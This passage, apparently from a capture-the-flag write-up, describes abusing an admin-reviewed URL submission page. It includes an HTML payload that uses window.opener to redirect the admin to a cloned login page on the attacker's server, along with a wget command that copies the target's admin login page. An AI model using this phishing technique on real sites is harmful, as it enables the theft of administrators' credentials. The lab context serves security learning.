 This page allows you to submit a URL that will be reviewed by an admin it says. After you submit a URL another link will appear on the page that you can click and it will take you to the URL you submitted.

![](images/napping3.png)

<br>

Knowing this we can direct the website to a link on our own server that looks exactly like the login page on the target web server. That way when the admin connects over our server to review our blog maybe they'll be tricked into logging in allowing us to capture their credentials.

I create a file called index.html on my system with the following contents:


```html
<!DOCTYPE html>
<html>
    <body>
        <script>
            window.opener.location='http://<MY IP>:4444/admin/login.php';
        </script>
    </body>
</html>
```

I then create a directory called **admin** and change over to it. Then I **wget** the **admin/login.php** page from the target webserver (note: do not just get /login.php, make sure to get /admin/login.php or upcoming steps will not work):

`wget http://10.10.12.151/admin/login.php`

```bash
HTTP request sent, awaiting response... 200 OK
Length: 1158 (1.1K) [text/html]
Saving to: ‘login.php’

login.php                              100%[===========================================================================>]   1.13K  --.-KB/s    in 0s
```
